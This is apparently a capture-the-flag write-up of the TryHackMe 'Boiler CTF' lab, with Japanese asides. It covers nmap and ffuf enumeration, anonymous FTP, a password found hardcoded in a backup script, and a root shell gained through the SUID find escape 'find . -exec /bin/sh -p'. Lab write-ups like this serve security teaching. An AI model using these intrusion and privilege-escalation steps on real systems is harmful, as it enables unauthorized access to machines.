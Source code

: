 ## Boiler CTF
https://tryhackme.com/room/boilerctf2

## Enum
```
nmap -sV -sC -sT 10.10.185.145 -vv
Scanning 10.10.185.145 [1000 ports]
Discovered open port 80/tcp on 10.10.185.145
Discovered open port 21/tcp on 10.10.185.145
Discovered open port 10000/tcp on 10.10.185.145
PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.18.90.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry
|_/
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
10000/tcp open  http    syn-ack MiniServ 1.930 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: EEA082250DD48C7BA4DC1C4A4DA6E6D8
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Unix
```

```
ftp> open 10.10.185.145
Connected to 10.10.185.145.
220 (vsFTPd 3.0.3)
Name (10.10.185.145:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44702|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||49016|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
ftp> close
```

```
cat .info.txt
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

![image](https://user-images.githubusercontent.com/6504854/183457849-14cef4ac-d678-42c0-861c-4ff928e7e521.png)

![image](https://user-images.githubusercontent.com/6504854/183458086-27cbbb06-9425-46ac-b7d8-e133f86666e5.png)

![image](https://user-images.githubusercontent.com/6504854/183458171-0971f1f0-4226-4fa0-b173-004cd1844c93.png)

![image](https://user-images.githubusercontent.com/6504854/183458310-398802de-c1de-4aab-937e-af599b01cb13.png)

🏴 I had no credentials, just do another enum...
```
ffuf -u http://10.10.185.145/joomla/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.tx
t
```
```
________________________________________________

.htaccess               [Status: 403, Size: 304, Words: 22, Lines: 12, Duration: 5127ms]
.hta                    [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 5151ms]
.htpasswd               [Status: 403, Size: 304, Words: 22, Lines: 12, Duration: 5092ms]
_archive                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 445ms]
_database               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 395ms]
_files                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 385ms]
_test                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 420ms]
administrator           [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 430ms]
bin                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 463ms]
build                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 590ms]
cache                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 578ms]
components              [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 619ms]
images                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 310ms]
includes                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 314ms]
index.php               [Status: 200, Size: 12484, Words: 772, Lines: 259, Duration: 367ms]
installation            [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 296ms]
language                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 311ms]
layouts                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 275ms]
libraries               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 302ms]
media                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 283ms]
modules                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 282ms]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 294ms]
templates               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 299ms]
tests                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 350ms]
tmp                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 324ms]
~www                    [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 293ms]
:: Progress: [4712/4712] :: Job [1/1] :: 140 req/sec :: Duration: [0:00:47] :: Errors: 0 ::
```

![image](https://user-images.githubusercontent.com/6504854/183459470-50505fea-73bf-48ad-8043-5386515aa148.png)

![image](https://user-images.githubusercontent.com/6504854/183459562-83c0b8aa-e996-46ef-8c00-cf12548a35f6.png)

![image](https://user-images.githubusercontent.com/6504854/183459625-8e9d8923-3b8e-465b-9358-68715ebada75.png)

![image](https://user-images.githubusercontent.com/6504854/183459701-fc091325-50b7-48d4-9dc8-b125b1282aa8.png)

![image](https://user-images.githubusercontent.com/6504854/183459816-8e294856-0dfd-4bc6-ac20-0d26b4dfc82e.png)

![image](https://user-images.githubusercontent.com/6504854/183460144-97645622-3aa0-4552-9934-4d3c5d4a939c.png)

![キャプチャ](https://user-images.githubusercontent.com/6504854/183460870-f066d248-b12e-43c6-9923-d22d877fafe6.PNG)

![キャプチャ2](https://user-images.githubusercontent.com/6504854/183460887-a739d8bb-905a-480a-9728-e69636f10309.PNG)

![キャプチャ3](https://user-images.githubusercontent.com/6504854/183460899-5c719b09-1636-4ab2-9ec5-00468a953c29.PNG)

🏴 Finally, I got the credential. 

## Flag

```
ssh basterd@10.10.134.119 -p 55007
```
Nmapセンパイがまわらなかったのでポート決め打ちで... 😢

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.

Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199

$ ls
backup.sh
$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log

DATE=`date +%y\.%m\.%d\.`

USER=stoner
#*****************
```

🏴 I got another credential for hardcoding.

```
$ su stoner
Password:

stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

🏴 Let's search some module has SUID bit.
```
stoner@Vulnerable:~$  find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null

-rwsr-xr-x 1 root root 38900 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30112 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 26492 May 15  2019 /bin/umount
-rwsr-xr-x 1 root root 34812 May 15  2019 /bin/mount
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 13960 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-custom
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-pristine
-rwsr-xr-- 1 root messagebus 46436 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 513528 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newgidmap
-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find
-rwsr-sr-x 1 daemon daemon 50748 Jan 15  2016 /usr/bin/at
-rwsr-xr-x 1 root root 39560 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 74280 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 53128 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 34680 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 159852 Jun 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 18216 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 78012 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newuidmap
```

```
stoner@Vulnerable:~$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Thank you for your time! Happy hacking 😄

🔥 🐙 🔥 🐙 🔥 🐙

涼しい部屋でアイス食べながらBoxやるのめちゃたのしい。 🍦 😋
